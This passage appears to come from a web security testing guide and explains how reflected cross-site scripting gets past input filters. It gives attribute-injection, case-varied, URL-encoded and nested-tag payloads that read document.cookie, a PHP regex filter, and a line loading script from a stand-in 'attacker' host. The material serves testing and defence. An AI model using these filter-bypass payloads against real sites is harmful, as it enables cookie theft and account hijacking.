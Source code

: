 Then an attacker could submit the following code:

```text
" onfocus="alert(document.cookie)
```

#### Example 4: Different Syntax or Encoding

In some cases it is possible that signature-based filters can be simply defeated by obfuscating the attack. Typically you can do this through the insertion of unexpected variations in the syntax or in the enconding. These variations are tolerated by browsers as valid HTML when the code is returned, and yet they could also be accepted by the filter.

Following some examples:

- `"><script >alert(document.cookie)</script >`
- `"><ScRiPt>alert(document.cookie)</ScRiPt>`
- `"%3cscript%3ealert(document.cookie)%3c/script%3e`

#### Example 5: Bypassing Non-Recursive Filtering

Sometimes the sanitization is applied only once and it is not being performed recursively. In this case the attacker can beat the filter by sending a string containing multiple attempts, like this one:

```text
<scr<script>ipt>alert(document.cookie)</script>
```

#### Example 6: Including External Script

Now suppose that developers of the target site implemented the following code to protect the input from the inclusion of external script:

```php
<?
    $re = "/<script[^>]+src/i";

    if (preg_match($re, $_GET['var']))
    {
        echo "Filtered";
        return;
    }
    echo "Welcome ".$_GET['var']." !";
?>
```

Decoupling the above regular expression:

1. Check for a `<script`
2. Check for a " " (white space)
3. Any character but the character `>` for one or more occurrences
4. Check for a `src`

This is useful for filtering expressions like `<script src="http://attacker/xss.js"></script>` which is a common attack. But, in this case, it is possible to bypass the sanitization by using the `>` character in an attribute between script and src, like this:
